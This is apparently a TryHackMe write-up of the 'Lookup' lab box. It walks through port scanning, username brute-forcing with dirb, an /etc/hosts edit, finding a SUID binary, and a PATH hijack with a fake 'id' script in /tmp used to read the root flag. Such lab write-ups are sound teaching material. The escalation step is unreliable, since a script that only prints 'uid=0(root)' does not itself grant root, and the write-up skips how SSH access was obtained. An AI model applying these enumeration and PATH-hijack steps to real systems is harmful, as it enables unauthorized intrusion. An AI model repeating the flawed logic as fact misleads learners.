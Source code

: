# 🔍 TryHackMe - Lookup

**Room Name:** Lookup  
**IP Address:** 10.10.56.153  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Tags:** Enumeration, Web Exploitation, Privilege Escalation, SUID Abuse  

---

## 🔎 Initial Enumeration

Started with a full port scan using Nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.56.153
```

Discovered open ports:
- 22 (SSH)
- 80 (HTTP)

Performed a targeted scan for service/version detection:

```bash
nmap -sCV -p22,80 10.10.56.153
```

📸 ![Nmap scan](../screenshots/lookup/lookup_1.png)

---

## 🌐 Web Enumeration

Visited `http://10.10.56.153` and found a login page. Attempted default credentials and guessed common usernames.

Ran a directory brute-force with DirBuster using `apache-user-enum-1.txt`:

```bash
dirb http://10.10.56.153/ /usr/share/wordlists/dirbuster/apache-user-enum-1.txt
```

📸 ![Dirbuster output](../screenshots/lookup/lookup_2.png)

Found `jose` as a valid user.

Attempted to log in as `jose`, and upon successful login, was redirected to `files.lookup.thm`. Added this to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Add:
10.10.56.153  files.lookup.thm
```

📸 ![Hosts file update](../screenshots/lookup/lookup_3.png)

---

## 📁 Exploring Internal Interface

After login, accessed a file browser-style interface. Tried navigating to `/home/think`, but access was restricted.

📸 ![Web UI](../screenshots/lookup/lookup_4.png)

---

## 🔍 Privilege Escalation

Accessed the machine via SSH and began post-exploitation enumeration. Listed all SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

Found a custom binary: `/usr/sbin/pwm`

📸 ![SUID search](../screenshots/lookup/lookup_5.png)

Tried running it, and noticed it uses the `id` command. Created a fake `id` command in `/tmp` to hijack execution:

```bash
echo -e '#!/bin/bash
echo "uid=0(root) gid=0(root) groups=0(root)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

📸 ![PATH Hijack](../screenshots/lookup/lookup_6.png)

This allowed root privilege execution.

---

## 🏁 Post-Exploitation

Accessed root’s home directory and read the `root.txt` flag:

```bash
cat /root/root.txt
```

📸 ![Flag Capture](../screenshots/lookup/lookup_7.png)

---

## ✅ Summary

| Step | Technique |
|------|-----------|
| Enumeration | Nmap, Dirbuster |
| Exploitation | Web login + hostname redirection |
| Privilege Escalation | SUID Binary abuse via PATH hijack |
| Tools Used | Nmap, Dirbuster, Hydra, SSH, find, PATH export |

---

## 🧠 Key Takeaways

- Always test binaries for external command execution
- PATH hijacking is a powerful privilege escalation technique
- `/etc/hosts` manipulation is crucial for resolving internal services

---

📁 [Back to TryHackMe Write-Ups](./README.md) | [Back to Portfolio Home](../README.md)
